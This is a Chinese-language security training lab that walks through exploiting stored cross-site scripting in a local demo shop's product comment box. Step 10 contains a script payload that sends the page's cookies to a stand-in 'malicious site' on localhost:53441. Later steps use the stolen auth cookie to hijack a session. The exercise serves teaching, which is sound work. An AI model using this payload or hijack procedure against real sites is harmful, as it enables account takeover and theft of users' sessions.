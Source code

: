 # A7: Cross-Site Scripting (XSS)

## 目標

>Stored XSS，在產品使用者留言備註中，輸入 JavaScript ，引發 Stored XSS 的問題

## 練習步驟

1. 開啟 Chrome 在 Url 中輸入 **<http://localhost:44375/Account/Login>**

2. 畫面輸入

    | 欄位 | 值  |
    |---|---|
    | Email | rm@gss.com.tw |
    | Password | 0002 |
    | Remember me | 不勾選 |

3. 按下 「**Login**」 Button

4. 在商品「**活性碳口罩**」按下「**Detail**」Button

5. 按下「**Vote for the 活性碳口罩**」Button

6. 在 textArea 中輸入

    ```html
    <b>rainmaker</b>
    ```

    ![Vote for the 活性碳口罩](images/A7-01.png)

7. 按下「**Vote**」Button後，可以發現畫面中顯示的是粗體字的 rainmaker。這就表示這裡有 Stored XSS 的問題。

    ![Stored XSS](images/A7-02.png)

8. 接下來回到商品列表，點選「**N95 口罩**」的 「**Detail**」Button

9. 按下「**Vote for the N95 口罩**」Button

10. 在 textArea 中輸入

    ```html
    <script>location.href="http://localhost:53441/cookies/?c="+encodeURIComponent(document.cookie);</script>
    ```

    ![XSS-document.cookie](images/A7-03.png)

11. 按下「**Vote**」Button後，可以發現，網頁已導到了惡意網站 **<http://localhost:53441/cookies/>**，並有 MyStore 的 cookie 資料。

    ![document.cookie](images/A7-04.png)

12. 開啟 Edge ，在 Url 中輸入 **<http://localhost:44375>**

13. 在 Edge 上按右鍵，選取「**Inspect**」，在開發者工具中，切到「**Application**」，點選左方 **Cookies** 下的 **<http://localhost:44375>**後，在右邊空白列新增 Cookie 名稱為 **authcookie** ，值從 **<http://localhost:53441/cookies/>** 畫面上Copy 過來貼上。

14. 在 Edge 上按下重新整理，就可以發現透過 rainmaker 登入

>修正請參考 todo: Session-8.2 (Detail.cshtml) 及 todo: Session-8.1 (List.cshtml)

[Back](./../../readme.md)
